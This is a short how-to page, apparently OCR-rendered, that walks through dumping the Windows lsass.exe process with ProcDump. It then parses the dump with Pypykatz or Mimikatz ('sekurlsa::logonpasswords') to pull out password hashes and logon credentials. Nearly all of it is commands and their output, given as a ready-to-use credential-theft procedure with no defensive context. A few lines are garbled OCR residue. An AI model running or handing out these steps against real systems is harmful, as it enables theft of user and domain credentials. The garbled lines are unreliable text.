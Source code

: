 # Dump LSASS process and parse it with Pypykatz/Mimikatz


1. Locate the PID of the lsass.exe process.

```bash
PS C:\> tasklist /fi "imagename eq lsass.exe"
akit/i"mgnm qlasee
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
lsass.exe                      564 Services                   0     45,456 K
```

2. Dump the process to a file with ProcDump

```bash
PS C:\> .\procdump64.exe -accepteula -ma 564 lsass.dmp
\rcup4ee-cpel m 6 ssdp
ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:20:38] Dump 1 initiated: C:\lsass.dmp
[14:20:38] Dump 1 writing: Estimated dump file size is 46 MB.
[14:20:38] Dump 1 complete: 46 MB written in 0.1 seconds
[14:20:38] Dump count reached.
```

3. Install Pypykatz.

```bash
sudo pip3 install pypykatz  
```

4. Run pypykatz to parse the dump and get hashes.

```bash
pypykatz lsa minidump lsass.dmp
```

Or via Mimikatz 

```bash
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```
